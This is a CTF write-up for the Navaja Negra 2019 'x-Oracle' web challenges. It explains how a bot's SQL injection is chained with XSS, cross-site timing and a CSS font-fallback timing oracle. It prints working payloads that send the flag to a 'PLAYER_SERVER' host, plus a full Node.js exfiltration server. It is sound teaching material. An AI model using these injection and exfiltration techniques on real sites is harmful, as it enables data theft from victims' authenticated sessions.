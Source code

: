 # Writeup x-Oracle Challenges (Navaja Negra 2019 CTF)

> __Preface:__ Navaja Negra is a local security conference celebrated every year in Albacete (Spain), and traditionally we have been organizing small CTFs for it. These tasks are a series of web challenges for this year.

The challenges are based on a vanilla SQL injection that must be exploited by a bot with admin role. The [source code](https://gist.github.com/cgvwzq/c78aa5fc228225a2779745f2705eeab5) is provided, so it is easy to spot the SQLi.

Complete source code: https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed

## x-Oracle-v0

The first challenge can be solved by chaining the SQL injection with a Blind XSS. The CSP configuration allows `unsafe-inline` and `img-src *`, so it is easy to force the bot to exploit the SQL injection and exfiltrate the flag to an external server:

```html
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

Easy Peasy, here's your flag: `nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}`

## x-Oracle-v1

This challenges includes a patch for the previous bug:

```
< res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

With this stricter CSP we cannot inject <script> tags or run JavaScript, so things get a bit more complicated. However, we can still try to exploit a time-based SQLi.

While there are many ways to solve this challenge (any solution for x-Oracle-v2 would also work here), our intended solution exploited a cross-site timing attack.

First, we need to redirect the bot to a website controlled by us ---easily done with <meta http-equiv=refresh>--- because this action is not affected by the CSP policy. From there we can use any method for measuring the loading time of a cross-origin resource.

In our case we used iframes and the onload event to extract the flag character by character. Finally we simply exfiltrate the flag via an `<img>` request.

```html
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

The flag: `nn9ed{t1ming_att4cks_ar3_th3_best_att4cks}`

## x-Oracle-v2

Now cross-site timing attacks are mitigated by SameSite cookies (this was supposed to be a huge hint for the bug in v1):

```
< cookie: { secure: false }
---
> cookie: { secure: false, sameSite: 'strict' }
```

Again, CSP only allows imgs, styles and fonts. Fonts? Yep! Fonts!

Unfortunately, SameSite cookies mean that we can not exploit cross-site timing attacks anymore ---the admin's cookie will not be send on the request.

Instead, our intended solution uses "fonts"! This summer we spend some time discussing about how to measure time purely in CSS, and after some reading, we found out that CSS font urls have a fallback mechanism that could be abused for that. This approach has several limitations, but it seemed fun enough for a CTF task :)

Specifically we are interested in `font-display`, according to the [spec](https://drafts.csswg.org/css-fonts-4/#font-display-desc):

>...[font-display] determines how a font face is displayed, based on whether and when it is downloaded and ready to use"

It supports 5 options:

* `auto`: The display policy is user-agent-defined (most cases same as `block`)
* `block`: Gives the font face a short __block period__ (3s is recommended in most cases) and an infinite __swap period__.
* `swap`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and an infinite __swap period__.
* `fallback`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a short __swap period__ (3s is recommended in most cases).
* `optional`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a 0s __swap period__.

And from the moment that the user-agent tries to download a font, the font-face starts a timer that will advance through 3 periods:

* __Block period__: if the font face is not loaded, any element attempting to use it must instead render with an invisible fallback font face. If the font face successfully loads during the block period, the font face is then used normally.
* __Swap period__: if the font face is not loaded, any element attempting to use it must instead render with a fallback font face. If the font face successfully loads during the swap period, the font face is then used normally.
* __Failure period__: if the font face is not yet loaded when this period starts, it’s marked as a failed load, causing normal font fallback. Otherwise, the font face is used normally.

In practice, we can expect the following scenario:

```css
@font-face {
    font-family: Leak;
    src: url(http://url-a/), url(http://url-b);
    font-display: optional;
}
div.leak {
    font-family: Leak;
}
```

Our font will try to load the first resource, since we are using `font-display: optional`, the block period has only 100ms to load the resource. If the requests fails during this time, the fallback font will be requested; otherwise, it will skip the swap period, mark the load as failed, and fallback to the normal font.

This means that if the first request takes too long to resolve, the second request is never done. Or in other words, we have our oracle in pure CSS!

From this point, is relatively easy to implement a tree search based on the time-based SQLi:

```css
@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5B%5C_abcdel%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=%5C_abcdel);
    font-display: optional;
    unicode-range: U+005f,U+0061,U+0062,U+0063,U+0064,U+0065,U+006c;
}

@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5Bfghijs%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=fghijs);
    font-display: optional;
    unicode-range: U+0066,U+0067,U+0068,U+0069,U+006a,U+0073;
}
div { font-family: Leak; }
```
When the admin visits a page with the following content, it will ping back with the subset that contains the first character:

```html
<div>_abcdefghijklmnopqrstuvwxyz</div>
<style>@import url(http://PLAYER_SERVER/)</style>
```

One drawback of this injection is that it is case insensitive, so we might need to refine it, but for illustration purposes is enough.

The following PoC uses recursive CSS import (for more details see [this](https://github.com/cgvwzq/css-scrollbar-attack/), [this](https://github.com/cgvwzq/css-scrollbar-attack/), or [this](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)) with the previous font fallback trick, to extract the flag in ~5s with a single visit of the admin:

```js
const http = require('http');
const url = require('url');
const port = 80;

const TARGET = "http://x-oraclev-2.nn9ed.ka0labs.org";
const HOSTNAME = `http://PLAYER_SERVER:${port}`;

const MAX_CON = 2;

Array.prototype.chunks = function(n) {
	let s = Math.floor(this.length / n);
    let ret = [], i;
	if (this.length <= n) {
		return this.map(e=>[e]);
	}
	for (i=0; i<s*n; i += s) {
		ret.push(this.slice(i,i+s));
    }
	for (i; i<this.length; i++) {
		ret[i%ret.length].push(this[i]);
    }
    return ret;
}

let nextResponse, pre, ranges, dic, c = 1;

const requestHandler = async (request, response) => {
    let req = url.parse(request.url, url);
    log('\treq: %s', request.url);
	response.setHeader('Access-Control-Allow-Origin','*');
    switch (req.pathname) {
        case "/css":
			pre = decodeURIComponent(req.query.pre);
			dic = decodeURIComponent(req.query.dic).split('');
			ranges = dic.chunks(MAX_CON);
			genResponse(response, pre, ranges);
            break;
		case "/next":
			console.log('delay next response');
			nextResponse = response;
			break;
		case "/leak":
			console.log(req.query.pre, req.query.range);
			if (parseInt(req.query.c) < c) {
				response.end();
				break;
			}
			if (req.query.range.length == 1) {
				pre += decodeURIComponent(req.query.range);
				ranges = dic.chunks(MAX_CON);
				c += 1;
				console.log('got char!');
			} else {
				ranges = decodeURIComponent(req.query.range).split('').chunks(MAX_CON);
			}
			if (nextResponse) {
				genResponse(nextResponse, pre, ranges);
			} else {
				console.log('shit...');
			}
            response.end();
			break;
        default:
            response.end();
    }
}

function cssEscape(i) {
	return escape(i);
}

const genResponse = (response, pre, ranges) => {
	let css = '@import url(' + HOSTNAME + '/next?' + Math.random() + ');\n\n' +
	ranges.map(e => ('@font-face { font-family: Leak;\n' +
		'src:url(' + TARGET + '/admin/search/x%27union%20select%20if%28cast%28flag%20as%20binary%29%20regexp%20%27' + cssEscape(pre) + '%5B' + cssEscape(e.join('')) + '%5D.*%7D%27,0,sleep%280.2%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), ' +
		'url(' + HOSTNAME + '/leak?pre=' + cssEscape(pre) + '&range=' + cssEscape(e.join('')) + '&c=' + c + '); font-display: optional; unicode-range: ' + e.map(x => ('U+' + ('0000'+x.charCodeAt(0).toString(16)).substr(-4))).join(','))+';}').join('\n') +
		'\n' + 'div' + ' { font-family: Leak; }';
    response.writeHead(200, { 'Content-Type': 'text/css'});
    response.write(css);
    response.end();

}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
})

function log() {
    console.log.apply(console, arguments);
}
```

The code is a bit unestable ---the browsers send some requests whose reason I still need to figure out---, but if we ignore them (thanks to the `c` param), in the worst case a few retries give us the flag (in lower case): `nn9ed{css_fallback_rulez}`.

After some manual adjustment: `nn9ed{cSS_fallback_rulez}`.

Interestingly, we can do better than a binary search by splitting the alphabet in more fonts. However, this number is limited by the browser's maximum number of connections per hosts (6 in most modern browsers). Using more than that will make the browser serialize fruther requests and the timing measurements will become useless.

## Unexpected solutions

One of the best perks of organizing a CTF is to see other people resolving your tasks in a different way than you intended. And this occasion wasn't an exception :)

We were aware that some sources of contention or serialization during parsing or resource loading could be used to solve this tasks. For a 2006 example, see Jeremiah Grossman's [non-JS port scanner](https://blog.jeremiahgrossman.com/2006/11/browser-port-scanning-without.html). Only 13 years ago... Feeling old? T_T

But nevertheless we got a few very interesting submissions. All of them solving both v1 and v2 at once.

### Font `unicode-range` + Alternative text

The first solution comes from the hand of [@terjanq](https://twitter.com/terjanq), who essentially destroyed the CTF solving all the tasks in just a few hours. Kudos!

He leverages a known `unicode-range` [trick](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) in a very smart way, to detect whether the alternate text of an `object` element has been rendered (on error) or not (on load). With that he is able to exploit an error based SQLi instead of a time-based. For more details see his [PoC](https://gist.github.com/terjanq/33bbb8828839994c848c3b76c1ac67b1).

Similarly, [Borja Martinez](https://twitter.com/Qm9yamFN) ---who heroically managed to solve the challenge at 6.20 AM--- used the `<img alt="A" src="http://victim/">` instead of `<object data="http://victim/">A</object>`.

In this case, the alternative text of the image is always rendered, but the browser only does that once the resource is resolved. By requesting a controlled resource before (time_start), and calculating the difference with the font load request (time_end), he obtains the delay of the loaded resource w/o JavaScript.

### `<img>` stalling `<meta http-equiv=refresh>`
The second person to solve the challenge was [Luan Herrera](https://twitter.com/lbherrera_), who used the fact that `<meta http-equiv=refresh>` will only take place when the previous images have finished loading.

Like Borja, he first requests a controlled resource (time_start), sets the stalling `<img>` tag, and the `<meta>` refresh tag pointing to his server to obtain the time delay.

Great work.

## Thanks for reading!
by [@cgvwzq](https://twitter.com/cgvwzq) and [@TheXC3LL](https://twitter.com/TheXC3LL)
